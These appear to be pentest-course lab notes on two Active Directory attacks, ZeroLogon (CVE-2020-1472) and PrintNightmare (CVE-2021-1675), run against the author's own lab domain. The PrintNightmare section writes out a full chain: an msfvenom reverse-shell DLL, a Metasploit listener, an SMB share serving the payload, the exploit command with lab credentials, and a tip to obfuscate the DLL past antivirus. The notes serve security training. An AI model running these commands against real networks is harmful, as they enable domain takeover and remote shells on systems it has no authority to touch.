 # AD - Additional Attacks

## ZeroLogon

➡️ [**ZeroLogon**](https://www.trendmicro.com/en_us/what-is/zerologon.html) is a vulnerability in the cryptography of Microsoft’s Netlogon process that allows an attack against Microsoft Active Directory domain controllers. Zerologon makes it possible for a hacker to impersonate any computer, including the root domain controller.

The **Zerologon vulnerability (CVE-2020-1472)** is a critical flaw in Microsoft's **Netlogon Remote Protocol (MS-NRPC)** that affects **Active Directory (AD) domain controllers**. Zerologon allows an unauthenticated attacker with network access to a domain controller to establish a vulnerable Netlogon session and eventually gain domain administrator privileges.

The vulnerability arises from a flaw in the **cryptographic implementation of the Netlogon protocol**, enabling attackers to impersonate any computer, including the root domain controller. By exploiting this, an attacker can effectively take over the entire domain.

This is a very dangerous attack, not worth the risk of running it in a pentest.

- [ZeroLogon testing script](https://github.com/SecuraBV/CVE-2020-1472)

```bash
mkdir -p $HOME/tcm/peh/ad-attacks/zerologon
cd $HOME/tcm/peh/ad-attacks/zerologon
git clone https://github.com/dirkjanm/CVE-2020-1472.git
wget https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/refs/heads/master/zerologon_tester.py

python3 zerologon_tester.py hydra-dc 192.168.31.90
```

![](.gitbook/assets/2025-02-16_10-42-02_887.png)

- Proceed with the attack using [dirkjanm/CVE-2020-1472: PoC for Zerologon](https://github.com/dirkjanm/CVE-2020-1472) if the target is vulnerable.

---

## PrintNightmare

> - [Playing with PrintNightmare | 0xdf hacks stuff](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)

➡️ The [**PrintNightmare**](https://www.huntress.com/blog/critical-vulnerability-printnightmare-exposes-windows-servers-to-remote-code-execution) vulnerability refers to critical security flaws in the Windows **Print Spooler service**, identified as **CVE-2021-1675** and **CVE-2021-34527**.

PrintNightmare is a critical **remote code execution** and **local privilege escalation** vulnerability that allows attackers to execute arbitrary code with **SYSTEM** privileges, enabling them to install programs, modify data, or create new accounts with full user rights. **Exploitation can occur remotely or locally**, even on fully patched systems, if certain registry settings are misconfigured. Microsoft has released patches to address these issues, however, systems with specific registry configurations may remain vulnerable.

```bash
# Impacket

# Scanning
rpcdump.py @192.168.31.90 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
# DC could be vulnerable

# Attacking
mkdir -p $HOME/tcm/peh/ad-attacks/printnightmare
cd $HOME/tcm/peh/ad-attacks/printnightmare
wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/refs/heads/main/CVE-2021-1675.py

# Open second terminal - Generate dll payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.31.131 LPORT=5555 -f dll > shell.dll
msfconfole
use multi/handler
set payload windows/x64/shell_reverse_tcp
set LPORT 5555
set LHOST 192.168.31.131

# Open third terminal - setup a file share
smbserver.py share `pwd` -smb2support

# Run attack
python3 CVE-2021-1675.py marvel.local/fcastle:Password1@192.168.31.90 '\\192.168.31.131\share\shell.dll'
```

- The attack was executed on a fully patched **Windows Server 2022**, and if it failed, it is most likely due to the applied security patches.
- The `dll` may need to be obfuscated to bypass AV detection.

```bash
# CVE-2021-1675.py output
[*] Connecting to ncacn_np:192.168.31.90[\PIPE\spoolss]
[+] Bind OK
[-] Failed to enumerate remote pDriverPath
RPRN SessionError: unknown error code: 0x8001011b
```

---

